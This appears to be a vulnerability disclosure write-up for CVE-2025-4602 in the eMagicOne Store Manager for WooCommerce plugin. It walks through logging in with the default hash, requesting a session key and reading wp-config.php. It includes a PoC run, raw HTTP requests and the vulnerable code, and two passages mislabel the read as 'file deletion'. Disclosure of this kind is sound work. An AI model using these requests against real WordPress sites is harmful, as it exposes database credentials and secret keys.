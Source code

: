 +++
title = 'eMagicOne Store Manager for WooCommerce <= 1.2.5 - Unauthenticated Arbitrary File Read'
date = 2025-05-23T05:10:12+00:00
hideToc = true
tags = ["CVE", "WordPress", "eMagicOne"]
description = "CVE-2025-4602: WordPress eMagicOne Store Manager plugin unauthenticated file read vulnerability via default credentials."
+++
### CVE-2025-4602

The [eMagicOne Store Manager for WooCommerce](https://wordpress.org/plugins/store-manager-connector/) plugin exposes a remote management protocol endpoint (`?connector=bridge`) that allows file deletion operations on the server. The authentication mechanism relies on a default credential pair (`login=1`, `password=1`) and a session key system. If the default credentials are not changed, an attacker can trivially authenticate, obtain a session key, and read arbitrary files from the WordPress root or any accessible directory.


## Reproduction
A POC [CVE-2025-4602.py](https://github.com/d0n601/CVE-2025-4602/blob/master/CVE-2025-4602.py) is provided to demonstrate reading the `wp-config.php` file from the server.

```
python3 CVE-2025-4602.py https://lab1.hacker --file wp-config.php
[*] Requesting session key...
[*] Raw response: {"response_code":20,"revision":11,"module_version":"1.2.5","session_key":"38933ee55aa61baf8bf4206494ec83c16c921980de6d5053f631172f0cad1cbc"}
[+] Got session key: 38933ee55aa61baf8bf4206494ec83c16c921980de6d5053f631172f0cad1cbc
[*] Getting file...
[*] File Content: <?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the installation.
 * You don't have to use the website, you can copy this file to "wp-config.php"
 * and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * Database settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://developer.wordpress.org/advanced-administration/wordpress/wp-config/
 *
 * @package WordPress
 */

// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'lab1' );

/** Database username */
define( 'DB_USER', 'homestead' );

/** Database password */
define( 'DB_PASSWORD', 'secret' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
...
...
...
...
...
```



## Vulnerable Flow
### Default Credentials and Hash Calculation

On plugin activation, the following constants are set in `smconnector.php`:

```php
define( 'EMO_SMC_DEFAULT_LOGIN', '1' );
define( 'EMO_SMC_DEFAULT_PASSWORD', '1' );
```

The default hash used for authentication is:
```php
'smconnector_hash'   => md5( EMO_SMC_DEFAULT_LOGIN . EMO_SMC_DEFAULT_PASSWORD ),
```
**Result:** The default hash is `md5('1' . '1')` = `c4ca4238a0b923820dcc509a6f75849b`.


### Session Key Acquisition
A session key is obtained by sending a POST request to the bridge endpoint with the hash and a task (e.g., `get_version`):

```http
POST /?connector=bridge
Content-Type: application/x-www-form-urlencoded

hash=c4ca4238a0b923820dcc509a6f75849b&task=get_version
```

**Relevant code:**  
`classes/class-emosmconnectorcommon.php` (lines ~441-525):

```php
private function check_auth() {
    if ( $this->shop_cart->isset_request_param( 'key' ) ) {
        // ... session key validation ...
    } elseif ( $this->shop_cart->isset_request_param( 'hash' ) ) {
        $hash = (string) $this->shop_cart->get_request_param( 'hash' );
        if ( ! $this->is_hash_valid( $hash ) ) {
            // ... error ...
        }
        $key = $this->generate_session_key( $hash );
        // ... return session key ...
    }
}
```

---

### Session Key Storage
The session key is stored in the `wp_smconnector_session_keys` table:

```php
private function generate_session_key( $hash ) {
    $key = hash( 'sha256', $hash . $timestamp );
    $sql = 'INSERT INTO `' . self::TABLE_SESSION_KEYS
        . "` (`session_key`, `date_added`, `last_activity`) VALUES ('" . $this->shop_cart->p_sql( $key ) . "', '"
        . $date . "', '" . $date . "')";
    $this->shop_cart->exec_sql( $sql );
    return $key;
}
```




### Arbitrary File Read
With a valid session key, an attacker can read a files using the `get_file` task:


```http
POST /?connector=bridge&task=get_file&key=<session_key>&entity_type=.&filename=wp-config.php

```

**Relevant code:**
`classes/class-emosmconnectorcommon.php` (lines ~2219+):

```php
2219	        /** Get file */
2220	        private function get_file() {
2221	                if ( ! $this->shop_cart->isset_request_param( 'entity_type' ) ) {
2222	                        $this->generate_error( $this->br_errors['entitytype_param_missing'] );
2223	                }
2224	
2225	                if ( ! $this->shop_cart->isset_request_param( 'filename' ) ) {
2226	                        $this->generate_error( $this->br_errors['filename_param_missing'] );
2227	                }
2228	
2229	                $entity_type = (string) $this->shop_cart->get_request_param( 'entity_type' );
2230	                $filename    = (string) $this->shop_cart->get_request_param( 'filename' );
2231	
2232	                if ( empty( $entity_type ) ) {
2233	                        $this->generate_error( $this->br_errors['entitytype_param_empty'] );
2234	                }
2235	
2236	                if ( empty( $filename ) ) {
2237	                        $this->generate_error( $this->br_errors['filename_param_empty'] );
2238	                }
2239	
2240	                $file_path = $this->shop_cart->get_file( $entity_type, $filename );
2241	
2242	                if ( $file_path && $this->shop_cart->file_exists( $file_path ) ) {
2243	                        header( 'Content-Type: image/jpeg' );
2244	                        header( 'Content-Length: ' . $this->shop_cart->file_size( $file_path ) );
2245	                        readfile( $file_path );
2246	                } else {
2247	                        $this->generate_error( 'File is missing' );
2248	                }
2249	        }
```


File deletion in `class-emosmcwoocommerceoverrider.php` (lines ~380+)::
```php
426	        public function get_file( $folder, $filename ) {
427	                $folder   = trim( $folder, '/' );
428	                $filename = ltrim( $filename, '/' );
429	                if ( empty( $folder ) ) {
430	                        return $this->get_shop_root_dir() . $filename;
431	                }
432	
433	                return $this->get_shop_root_dir() . "$folder/$filename";
```
**Result:** The file is returned from the server.
